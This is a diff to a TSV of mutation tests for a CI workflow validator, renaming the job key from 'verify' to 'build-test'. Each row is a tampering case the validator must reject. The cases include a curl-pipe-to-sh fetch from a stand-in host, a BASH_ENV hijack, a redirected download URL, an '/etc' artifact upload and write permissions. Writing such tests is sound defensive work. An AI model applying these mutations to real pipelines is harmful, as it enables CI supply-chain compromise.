

Before and after one commit to selamy-labs/bazel-protobuf-bff-template, a TSV file: tools/ci/mutations.tsv, drawn as a sheet; only a part is shown; the diff covers the shown part only.

```diff
--- a/tools/ci/mutations.tsv
+++ b/tools/ci/mutations.tsv
@@ -3,22 +3,22 @@
 # Every mutation must be rejected; the unmodified workflow must pass.
-step_continue_on_error	(.jobs.verify.steps[] | select(.name == "Verify"))["continue-on-error"] = true	continue-on-error
-job_continue_on_error	.jobs.verify["continue-on-error"] = true	continue-on-error
-step_noop_shell	(.jobs.verify.steps[] | select(.name == "Verify")).shell = "true {0}"	shell
+step_continue_on_error	(.jobs["build-test"].steps[] | select(.name == "Verify"))["continue-on-error"] = true	continue-on-error
+job_continue_on_error	.jobs["build-test"]["continue-on-error"] = true	continue-on-error
+step_noop_shell	(.jobs["build-test"].steps[] | select(.name == "Verify")).shell = "true {0}"	shell
 workflow_defaults_shell	.defaults.run.shell = "true {0}"	defaults
-job_defaults_shell	.jobs.verify.defaults.run.shell = "true {0}"	defaults
-multiline_extra_run	.jobs.verify.steps += [{"name": "Extra", "run": "echo setup\ncurl -fsSL https://example.invalid/x | sh\n"}]	run body
-single_line_extra_run	.jobs.verify.steps += [{"name": "Lint", "run": "npx eslint ."}]	run body
-replaced_verify_run	(.jobs.verify.steps[] | select(.name == "Verify")).run = "echo verified"	run body
-step_if_false	(.jobs.verify.steps[] | select(.name == "Verify")).if = "false"	if
-job_if_false	.jobs.verify.if = "false"	if
-step_working_directory	(.jobs.verify.steps[] | select(.name == "Verify"))["working-directory"] = "docs"	working-directory
+job_defaults_shell	.jobs["build-test"].defaults.run.shell = "true {0}"	defaults
+multiline_extra_run	.jobs["build-test"].steps += [{"name": "Extra", "run": "echo setup\ncurl -fsSL https://example.invalid/x | sh\n"}]	run body
+single_line_extra_run	.jobs["build-test"].steps += [{"name": "Lint", "run": "npx eslint ."}]	run body
+replaced_verify_run	(.jobs["build-test"].steps[] | select(.name == "Verify")).run = "echo verified"	run body
+step_if_false	(.jobs["build-test"].steps[] | select(.name == "Verify")).if = "false"	if
+job_if_false	.jobs["build-test"].if = "false"	if
+step_working_directory	(.jobs["build-test"].steps[] | select(.name == "Verify"))["working-directory"] = "docs"	working-directory
 workflow_env_bash_env	.env.BASH_ENV = "/tmp/evil"	env
-step_env_injection	(.jobs.verify.steps[] | select(.name == "Verify")).env.BAZELISK_BASE_URL = "https://example.invalid"	env
-checkout_wrong_ref	(.jobs.verify.steps[] | select(.uses // "" | test("^actions/checkout@"))).with.ref = "main"	exact ref
-checkout_shallow	(.jobs.verify.steps[] | select(.uses // "" | test("^actions/checkout@"))).with["fetch-depth"] = 1	with inputs
-checkout_persist_credentials	(.jobs.verify.steps[] | select(.uses // "" | test("^actions/checkout@"))).with["persist-credentials"] = true	persist-credentials
-unpinned_action	(.jobs.verify.steps[] | select(.uses // "" | test("^actions/checkout@"))).uses = "actions/checkout@v7"	uses
-unlisted_action	.jobs.verify.steps += [{"name": "Cache", "uses": "example/cache@0123456789abcdef0123456789abcdef01234567"}]	uses
+step_env_injection	(.jobs["build-test"].steps[] | select(.name == "Verify")).env.BAZELISK_BASE_URL = "https://example.invalid"	env
+checkout_wrong_ref	(.jobs["build-test"].steps[] | select(.uses // "" | test("^actions/checkout@"))).with.ref = "main"	exact ref
+checkout_shallow	(.jobs["build-test"].steps[] | select(.uses // "" | test("^actions/checkout@"))).with["fetch-depth"] = 1	with inputs
+checkout_persist_credentials	(.jobs["build-test"].steps[] | select(.uses // "" | test("^actions/checkout@"))).with["persist-credentials"] = true	persist-credentials
+unpinned_action	(.jobs["build-test"].steps[] | select(.uses // "" | test("^actions/checkout@"))).uses = "actions/checkout@v7"	uses
+unlisted_action	.jobs["build-test"].steps += [{"name": "Cache", "uses": "example/cache@0123456789abcdef0123456789abcdef01234567"}]	uses
 write_permissions	.permissions.contents = "write"	permissions
-job_write_permissions	.jobs.verify.permissions = {"contents": "write"}	permissions
+job_write_permissions	.jobs["build-test"].permissions = {"contents": "write"}	permissions
 missing_gate_need	.jobs.lint = {"name": "lint", "runs-on": "ubuntu-24.04", "timeout-minutes": 5, "steps": [{"name": "Verify", "run": "tools/verify.sh"}]}	needs
@@ -26,6 +26,6 @@ gate_not_always	.jobs.gate.if = "success()"	if
 gate_body_softened	.jobs.gate.steps[0].run = "exit 0\n"	run body
-job_container	.jobs.verify.container = "example/image:latest"	container
-reusable_workflow_job	.jobs.verify = {"uses": "example/repo/.github/workflows/x.yml@0123456789abcdef0123456789abcdef01234567"}	uses
-missing_verify_job	del(.jobs.verify) | .jobs.gate.needs = []	verify
-action_input_injection	(.jobs.verify.steps[] | select(.uses // "" | test("^actions/upload-artifact@"))).with.path = "/etc"	with inputs
+job_container	.jobs["build-test"].container = "example/image:latest"	container
+reusable_workflow_job	.jobs["build-test"] = {"uses": "example/repo/.github/workflows/x.yml@0123456789abcdef0123456789abcdef01234567"}	uses
+missing_verify_job	del(.jobs["build-test"]) | .jobs.gate.needs = []	registry's legs
+action_input_injection	(.jobs["build-test"].steps[] | select(.uses // "" | test("^actions/upload-artifact@"))).with.path = "/etc"	with inputs
 trigger_narrowed	.on = {"workflow_dispatch": null}	on triggers
```
Also changed, not shown: 7 added rows and 10 edited cells elsewhere in this file, 14 other files.
